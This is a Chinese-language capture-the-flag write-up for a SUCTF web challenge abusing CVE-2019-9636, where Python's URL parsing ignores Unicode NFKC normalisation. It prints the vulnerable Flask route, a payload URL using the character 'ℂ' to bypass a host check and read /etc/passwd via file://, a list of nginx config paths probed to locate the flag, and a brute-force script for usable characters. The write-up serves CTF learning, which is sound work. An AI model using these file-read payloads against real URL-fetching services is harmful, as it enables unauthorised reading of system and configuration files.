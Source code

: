 # 考察知识点：

1. pathon  CVE-2019-9636：urlsplit不处理NFKC标准化

2. nginx 配置文件



# 1.题目给出源码

```javascript
@app.route('/getUrl', methods=['GET', 'POST'])
def getUrl():

    url = request.args.get("url")
    host = parse.urlparse(url).hostname
    if host == 'suctf.cc':
        return "我扌 your problem? 111"

    parts = list(urlsplit(url))
    host = parts[1]
    if host == 'suctf.cc':
        return "我扌 your problem? 222 " + host
    newhost = []
    for h in host.split('.'):
        newhost.append(h.encode('idna').decode('utf-8'))
    parts[1] = '.'.join(newhost)

    #去掉 url 中的空格
    finalUrl = urlunsplit(parts).split(' ')[0]
    host = parse.urlparse(finalUrl).hostname
    if host == 'suctf.cc':
        return urllib.request.urlopen(finalUrl).read()
    else:
        return "我扌 your problem? 333"
```

源码大体意思就是host前两次不能等于'suctf.cc'

第三次等于'suctf.cc'



# 2.此题和[HCTF 2018]admin有点类似，也是利用特殊字符多次处理时会改变来造成攻击

列如：[HCTF 2018]admin

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/buuctf练习笔记/images/3A11349FB68A4C72A829020D5970B8E5clipboard.png)

# 3.可以利用ℂ来替换.cc中的从c，在最后出来后会恢复成c,也就成功绕过了if判断，阔以修改个源码用来测试

```javascript
import urllib
from urllib import parse
from urllib.parse import urlsplit, urlunsplit

#url = []
url = "file://suctf.cℂ/../../../etc/passwd"
host = parse.urlparse(url).hostname
if host == 'suctf.cc':
    print('first')
    exit(1)
print('1 '+host)
parts = list(urlsplit(url))
host = parts[1]
if host == 'suctf.cc':
    print('sec')
    exit(2)
print('2 '+host)
newhost = []
for h in host.split('.'):
    newhost.append(h.encode('idna').decode('utf-8'))
parts[1] = '.'.join(newhost)
#去掉 url 中的空格
finalUrl = urlunsplit(parts).split(' ')[0]
host = parse.urlparse(finalUrl).hostname
if host == 'suctf.cc':
    print('3 '+host)
    print(finalUrl)
    #print(urllib.request.urlopen(finalUrl).read())
else:
    print('???')
    exit(3)


```

ℂ第一次经过host = parse.urlparse(url).hostname时变成了：ℂ

第二次：ℂ

第三次：c

符合代码的规定，接下来可以进行任意文件读取



![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/buuctf练习笔记/images/B9F8712957644327A83F42E1C6F3C27Fclipboard.png)



# 4. ℂ是特殊字符，url编码

```javascript
import urllib

url = "file://suctf.cℂ/../../../etc/passwd"
print(urllib.parse.quote(url.encode('utf-8', 'replace')))
```



# 5. 访问读取到/etc/passwd文件

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/buuctf练习笔记/images/46AFBF88A9E249FD81FBF23B782D0708clipboard.png)



# 6.题目提示nginx，尝试读取nginx配置文件

- 配置文件存放目录：/etc/nginx

- 主配置文件：/etc/nginx/conf/nginx.conf

- 管理脚本：/usr/lib64/systemd/system/nginx.service

- 模块：/usr/lisb64/nginx/modules

- 应用程序：/usr/sbin/nginx

- 程序默认存放位置：/usr/share/nginx/html

- 日志默认存放位置：/var/log/nginx

- /usr/local/nginx/conf/nginx.con

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/buuctf练习笔记/images/FF01B658250E4CE1B6109D0181B56DDAclipboard.png)

知道flag文件位置读取



# 7.读取/user/flllllag

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/buuctf练习笔记/images/915B3E0E49FD491995D620ECE98CDB17clipboard.png)





# 8.爆破可用字符的脚本

```javascript
from urllib.parse import urlparse,urlunsplit,urlsplit
from urllib import parse
def get_unicode():
    for x in range(65536):
        uni=chr(x)
        url="http://suctf.c{}".format(uni)
        try:
            if getUrl(url):
                print("str: "+uni+' unicode: \\u'+str(hex(x))[2:])
        except:
            pass


def getUrl(url):
    url = url
    host = parse.urlparse(url).hostname
    if host == 'suctf.cc':
        return False
    parts = list(urlsplit(url))
    host = parts[1]
    if host == 'suctf.cc':
        return False
    newhost = []
    for h in host.split('.'):
        newhost.append(h.encode('idna').decode('utf-8'))
    parts[1] = '.'.join(newhost)
    finalUrl = urlunsplit(parts).split(' ')[0]
    host = parse.urlparse(finalUrl).hostname
    if host == 'suctf.cc':
        return True
    else:
        return False

if __name__=="__main__":
    get_unicode()
```



![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/buuctf练习笔记/images/B94701942DF14490A39EBEB607217137clipboard.png)


